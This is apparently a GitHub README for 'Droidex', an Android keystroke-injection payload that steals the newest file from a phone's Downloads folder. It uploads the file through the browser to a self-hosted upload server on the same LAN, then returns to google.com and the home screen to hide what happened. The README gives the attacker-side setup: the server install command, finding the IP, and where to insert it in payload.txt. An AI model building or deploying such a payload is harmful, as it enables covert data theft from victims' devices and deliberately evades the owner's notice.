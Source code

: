 REM TITLE: Droidex

REM AUTHOR: OSINTI4L (https://github.com/OSINTI4L)

REM TARGET OS: Android (tested on Samsung S24 FE | Android 15 | One UI 7.0)

Droidex is a data exfiltration payload that grabs the top file listed in the phones' downloads directory and exfiltrates it to a self-hosted webserver over LAN. Both the attacker machine and target device must be connected to the same LAN. The payload will use Google Search to navigate to the self-hosted webserver and upload the file. After exfiltration, the browser will navigate to `google.com` and the device will return to the home screen to obfuscate activity.

**REQUIRED DEPENDENCIES**

Python module [uploadserver](https://pypi.org/project/uploadserver/)

 1. Install `uploadserver` on attack machine (`python3 -m pip install --user uploadserver`).
 2. Enter `ifconfig` in terminal of attack machine (Linux) to find machine IP address.
 3. Start the webserver (`python3 -m uploadserver`).
 4. Place the IP address found via `ifconfig` into line 6 (`DEFINE #IPA x.x.x.x:8000/upload`) of payload.txt.
 5. The file will be saved to the current working directory on the attacker machine where the server is being hosted from.

![diagram](https://github.com/user-attachments/assets/7ff38363-1061-4ac4-a391-6d5cad8f9053)
